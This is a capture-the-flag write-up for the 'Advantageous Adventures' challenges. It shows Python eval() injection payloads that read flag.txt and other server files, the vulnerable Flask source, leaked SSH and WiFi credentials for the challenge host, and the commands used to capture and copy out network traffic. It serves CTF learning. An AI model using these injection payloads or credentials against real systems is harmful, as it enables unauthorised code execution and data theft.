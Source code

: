 # Advantageous Adventures

## First Bloods :\)

Managed to do up to AA-2 before I had to sleep as I had work the next day.

![](../../.gitbook/assets/b03306ada90443c2ae357adcc8b16b5b.png)

Woke up to solve AA-3 and AA-4!

![](../../.gitbook/assets/a083aabdd002476dbc3aba429204e85c.png)

## AA 1

The page offers a bunch of math calculators. Testing some simple payloads revealed that the backend was using Python's `eval()` to generate the results.

![](../../.gitbook/assets/e73984aeadda4448aaeec2efc121b28b.png)

Now, if we are going to read a flag, we are most probably going to be dealing with strings. If we are dealing with strings, one of the math operators is more useful than others: the `+` operator is the concatenation operator in Python.

![](../../.gitbook/assets/583642d23275420490ec56191729782b.png)

Using the simple payload `val1=''&val2=open('flag.txt').read()`, we can make the server return the contents of `flag.txt`.

![](../../.gitbook/assets/cb85fcac00f44b0ea03ed3c66f31a9a7.png)

## AA 2

Did you get what you needed from Advantageous Adventures 1? You'll need a username and password from the first challenge to proceed. I heard that the Advantageous Adventures team was using what you received to communicate on a low level. Can you figure out how they're talking?

All info for this challenge must be derived from Advantageous Adventures 1.

### Solution

We can import the os module.

`val1=''&val2=str(__import__('os').listdir())`

The result: `['__pycache__', 'static', 'secret_script.py', 'secret_info', 'flag.txt', 'app.py', 'README.md', 'templates', 'Dockerfile']`

![](../../.gitbook/assets/141a801238ba4a63863bf4e5a93ea1d2.png)

#### secret\_script.py

`val1=''&val2=open('secret_script.py').read()`

```python
from scapy.all import rdpcap, RadioTap, wrpcap

# run this on the file you get during the second challenge
# you don't need to understand all of it

packets = rdpcap('in.pcap')
fixed_packets = []

if len(packets) < 2153:
    # must have at least 2153 packets
    exit(1)

for packet in packets:
    # I know eval is unsafe but stackoverflow is down when script was created
    packet_bytes = eval(str(packet))
    fixed_packet_bytes = packet_bytes[14:]
    fixed_packets.append(RadioTap(fixed_packet_bytes))
wrpcap("out.pcap", fixed_packets)
```

#### secret\_info

```text
Make sure not to leak this info, needs to be super secret:
ip: chals1.umdctf.io
port: 3001
username: user
password: w0w_th3s3_@dv3ntur3s_r3@lly_@r3_outr@g30u5
wifi password: whose_adventure
```

#### app.py

```python
from flask import Flask, request, render_template
app = Flask(__name__)

@app.route('/')
def start():
    return render_template("home.html")

@app.route('/xor_calculator')
def xor_calculator():
    return render_template("calculator.html", calculate_type="xor")

@app.route('/add_calculator')
def add_calculator():
    return render_template("calculator.html", calculate_type="add")

@app.route('/mult_calculator')
def mult_calculator():
    return render_template("calculator.html", calculate_type="mult")

@app.route('/xor', methods=['POST'])
def xor():
    return calculate(0)

@app.route('/add', methods=['POST'])
def add():
    return calculate(1)

@app.route('/mult', methods=['POST'])
def mult():
    return calculate(2)


def calculate(operation_index):
    try:
        val1 = request.form['val1']
        val2 = request.form['val2']
        print(val1)
        print(val2)
        print(operation_index)
        if operation_index == 0:
            return str(eval(val1) ^ eval(val2))
        elif operation_index == 1:
            return str(eval(val1) + eval(val2))
        else:
            return str(eval(val1) * eval(val2))
    except Exception as e:
        print(e)
        return "An error occured"
```

We can SSH into the server using the credentials obtained above: `ssh user@chals1.umdctf.io -p 3001`

```text
user@b54d03d75f2b:/$ find / -name *pcap 2>/dev/null
/sys/bus/spi/drivers/ezx-pcap
/usr/bin/dumpcap
/usr/bin/text2pcap
```

We can use `dumpcap` to capture the network traffic.

Capture 2000+ packets on the WiFi interface: `dumpcap -i wlo2 -P`

After running the `secret_script.py`, transfer the `out.pcap` out using `scp`:

`scp -P 3001 user@chals1.umdctf.io:/home/ubuntu/out.pcap .`

Open in Wireshark, and we have our flag!

![](../../.gitbook/assets/c76294961f9e410c9ff3684ad582d550.png)

## AA 3

In Wireshark, we can decrypt the wireless traffic with the WiFi password found previously. This reveals another flag hidden in the data of the subsequent packets.

![](../../.gitbook/assets/5c328112b26d47c5a3cc58d54294e497.png)

## AA 4

Shortly below the above flag, we can see lots of packets with repeated numbers, starting from `0000...`, `1111...`, `2222...`, and so on. The number _itself_ probably doesn't mean much - we're looking for a string. But the length \(i.e. number of repeated numbers\) varies for each packet. This could be one way to encode data.

![](../../.gitbook/assets/0f971550f99c42928a8074e77759f8d8.png)

In Wireshark: Export packets as JSON. Then we can run a script to extract the flag:

```python
import json

data = json.load(open('capture.json'))

result = ''
i = 1    # ith packet
j = 0    # number = 1

for packet in data:

    if i < 500:
        i += 1
        continue

    packet_data = packet['_source']['layers']['data']
    char = chr((int(packet_data['data.len']) + 4 ) // len(str(j)))

    if not result.endswith(char):
        print(result, j)
        result += char
        j += 1

    i += 1

    if i > 2310:
        break

print(result)
```

![](../../.gitbook/assets/12222e1999df4de080daf0015db90953.png)

